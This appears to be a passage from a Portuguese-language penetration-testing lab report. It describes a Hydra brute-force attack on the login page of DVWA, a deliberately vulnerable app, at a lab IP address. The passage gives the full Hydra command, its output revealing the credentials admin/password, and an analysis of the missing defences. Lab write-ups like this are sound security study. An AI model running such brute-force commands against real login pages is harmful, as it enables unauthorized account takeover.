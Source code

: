 ```bash
hydra -L wordlists/users.txt -P wordlists/passwords.txt 192.168.56.102 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V
```

### Resultados Obtidos

**✅ CREDENCIAIS DESCOBERTAS:**

| Usuário | Senha | Tempo | Tentativas |
|---------|-------|-------|------------|
| **admin** | **password** | ~8 segundos | 62 tentativas |

### Output do Hydra (Resumido)

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-21 10:45:23
[DATA] max 16 tasks per 1 server, overall 16 tasks, 155 login tries (l:5/p:31), ~10 tries per task
[DATA] attacking http-post-form://192.168.56.102:80/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed
[ATTEMPT] target 192.168.56.102 - login "admin" - pass "123456" - 1 of 155 [child 0] (0/0)
[ATTEMPT] target 192.168.56.102 - login "admin" - pass "password" - 2 of 155 [child 1] (0/0)
[80][http-post-form] host: 192.168.56.102   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```

### Validação de Acesso

Acesso via navegador:
- URL: http://192.168.56.102/dvwa/login.php
- Usuário: admin
- Senha: password
- **✅ Login bem-sucedido! Acesso ao painel administrativo do DVWA**

### Análise

O ataque web foi bem-sucedido devido a:
- Ausência de CAPTCHA
- Sem limitação de tentativas de login
- Credenciais padrão não alteradas
- Sem rate limiting
- Mensagens de erro verbosas
- Ausência de autenticação multifator
- Nível de segurança configurado como "Low"

---

## 5. Resumo Geral dos Resultados

### Credenciais Descobertas
